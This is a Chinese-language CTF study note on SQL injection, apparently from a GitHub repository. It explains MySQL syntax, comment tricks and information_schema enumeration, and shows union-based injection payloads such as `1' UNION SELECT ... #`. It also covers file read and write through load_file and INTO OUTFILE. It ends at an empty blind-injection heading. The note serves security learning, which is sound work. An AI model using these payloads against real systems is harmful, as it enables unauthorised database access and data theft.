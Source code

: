 # CTF Web笔记

## SQL注入

### 基本概念（摘抄自CTFwiki）

- SQL 注入是一种将 SQL 代码插入或添加到应用（用户）的输入参数中，之后再将这些参数传递给后台的 SQL 服务器加以解析并执行的攻击。
- 攻击者能够修改 SQL 语句，该进程将与执行命令的组件（如数据库服务器、应用服务器或 WEB 服务器）拥有相同的权限。
- 如果 WEB 应用开发人员无法确保在将从 WEB 表单、cookie、输入参数等收到的值传递给 SQL 查询（该查询在数据库服务器上执行）之前已经对其进行过验证，通常就会出现 SQL 注入漏洞。

### MySQL基础

- **基础指令**

```SQL
SHOW DATABASES;  /*输出所有的数据库*/

USE db_name;  /*使用某个其中一个数据库*/

SHOW TABLES;  /*显示数据库中的表*/

SHOW COLUMNS FROM table_name;  /*输出列*/
```

- **查询指令**

```SQL
SELECT field1, field2,...fieldN (FROM table_name1, table_name2..
[WHERE condition1 [AND [OR]] condition2...])
```
从table_name表中查询条件符合condition的field列中的元素

field可以替换为*，代指所有列

一些常用的查询语句

```SQL
SELECT col_name FROM table_name /*从特定表中获取特定列*/

SELECT * FROM table_name /*从特定表中获取全部列*/

SELECT * FROM table_name WHERE col_name = XXX /*在限定条件下取数据*/ 

SELECT * FROM table_name ORDER BY col_name(col_index) /*根据列名或索引排序*/

SELECT col_name1, col_name2… FROM table_name LIMIT N, M  /*从第N(从0开始)条开始，返回M条数据*/

SELECT col_name1, col_name2… FROM table_name LIMIT M OFFSET N  /*也可以这么写*/

SELECT concat(col_name1, col_name2…) FROM table_name /*整合列数据*/

SELECT group_concat(col_name1, col_name2…) FROM table_name /*整合行、列数据*/
```

- **注释方式**

```SQL
/*
这是注释，支持多行
*/

-- 这也是注释(注意后面有个空格)

# 这还是注释 

/*!version_number 当数据库版本大于version_number(或version_number为空)时
注释内容会被执行，否则就是普通注释*/
```

- **注入常用函数**

```SQL
SELECT user(); /* 获取当前数据库用户 */

SELECT database(); /* 获取当前数据库名 */

SELECT schema_name FROM information_schema.schemata; /*查询默认库得到所有数据库名*/

SELECT table_name FROM information_schema.tables WHERE table_schema='db_name'; /*查询数据库下的所有表名*/

SELECT column_name FROM information_schema.columns WHERE table_name='table_name' AND table_schema='db_name'; /*查询表中的所有列名*/

SELECT version(); /* 获取当前使用的数据库版本 */

SELECT @@datadir; /* 获取数据库存储数据的路径 */

SELECT concat_ws('分隔符', col_name1, col_name2...) FROM table_name; /* 使用 concat_ws() 联合列数据，并指定分隔符 */

SELECT hex(col_name) FROM table_name; /* 使用 hex() 进行编码 */

SELECT unhex(hex_col_name) FROM table_name; /* 使用 unhex() 进行解码 */

SELECT load_file('文件路径'); /* 使用 load_file() 以文本方式读取文件，路径在 Windows 中设置为 \ */

SELECT '数据内容' INTO OUTFILE '文件路径'; /* 在具有高权限时，将数据内容写入文件 */

ASCII() /*得到字符ASCII码值*/

CHAR() /*把ASCII码值转化为对应的字符*/
```

### 有回显的SQL注入

有回显即可以看到查询出的所有内容。

最简单的可被注入的语句有以下两种

```SQL
SELECT col_name(…) FROM table_name WHERE id = {}       /*数字型*/
SELECT col_name(…) FROM table_name WHERE id = '{}'     /*字符型*/
/* {}替换为输入的内容 */
```

除此之外还可能有括号，双引号等

所以首先就要判断是字符型查询还是数字型或是其他

首先传入所有特殊符号'"~!@#$%^&*()`，如果报错大概率是字符型

比如对于 `SELECT col_name(…) FROM table_name WHERE id = '{}'`,我们可以输入一个单引号，使其变成 `SELECT col_name(…) FROM table_name WHERE id = '''`,这样就会多出来一个单引号引发报错。

此外，还可以通过输入一个数学表达式如1+1，如果查询时发现式子被计算了，则是数字型。

确定查询语句后，就可以开始注入。

因为可以直接看到注入的回显，我们可以使用union语句查询自己想要的内容

```SQL
SELECT field1, …, fieldN FROM table_name UNION SELECT field1*, …, fieldN * FROM table_name*;
```

如传入`1' UNION SELECT {secret_data} # ` 组成 `SELECT col_name(…) FROM table_name WHERE id = '1' UNION SELECT {secret_data} # '`

注意，UNION语句前后查询的列数应当是一样的，否则会报错。

我们可以尝试构造
```sql
SELECT col_name1, …, col_nameN FROM table_name WHERE id = 1 ORDER BY M;
```

即将查询到的内容按第M列排序

- M<=N时，能有正常的返回

- M>N时，报错

然后我们就可以使用UNION查询其他的表，通过使用以下函数获得表名/列名

```sql
SELECT database(); /* 获取当前数据库名 */

SELECT schema_name FROM information_schema.schemata; /*查询默认库得到所有数据库名*/

SELECT table_name FROM information_schema.tables WHERE table_schema='db_name'; /*查询数据库下的所有表名*/

SELECT column_name FROM information_schema.columns WHERE table_name='table_name' AND table_schema='db_name'; /*查询表中的所有列名*/
```

例如构造如下查询指令进行查询

```sql
SELECT col_name1, …, col_nameN FROM table_name WHERE id = 3 UNION SELECT group_concat(schema_name), 2, 3 FROM information_schema.schemata;
```

假设我们发现了flag表，就可以构造注入语句。

如果查出users表中有三列，而flag表中只有一列，我们可以添加几个数字来凑齐三列。

```sql
SELECT * FROM users WHERE id=1 UNION SELECT 1,2,group_concat(flag) FROM flag
```

得到

| id | user | password |
|----------|----------|----------|
| 1    | admin   | adminpass   |
| 1    | 2   | flag1{},flag2,others   |

这样就拿到了有效信息。

### 无回显的SQL注入

无回显即不显示查询到的内容，一般返回是否查询到内容。

可以通过**布尔盲注**进行查询：



## 杂项知识

